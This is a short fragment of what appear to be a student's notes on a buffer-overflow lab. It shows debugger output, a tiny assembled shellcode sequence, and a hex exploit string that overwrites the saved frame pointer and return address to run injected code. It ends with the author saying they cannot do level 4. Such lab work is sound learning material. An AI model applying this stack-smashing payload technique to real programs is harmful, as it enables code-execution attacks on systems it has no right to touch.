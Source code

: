 ```
 EBP  0x55683530 (_reserved+1037616) —▸ 0x55685ff0 (_reserved+1048560) —▸ 0xffffd178 —▸ 0xffffd1b8 ◂— 0x0

```

next step

```
q@linux:~$ gcc -c 3.s
q@linux:~$ objdump -d 3.o

3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	b8 07 a7 06 4e       	mov    $0x4e06a707,%eax
   5:	68 b9 8d 04 08       	pushq  $0x8048db9
   a:	c3                   	retq   
```

exp

```
b8 07 a7 06 
4e 68 b9 8d 
04 08 c3 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00
00 00 00 00 
30 35 68 55#old ebp
d8 34 68 55#rax
```



level4:=-= i can not do it 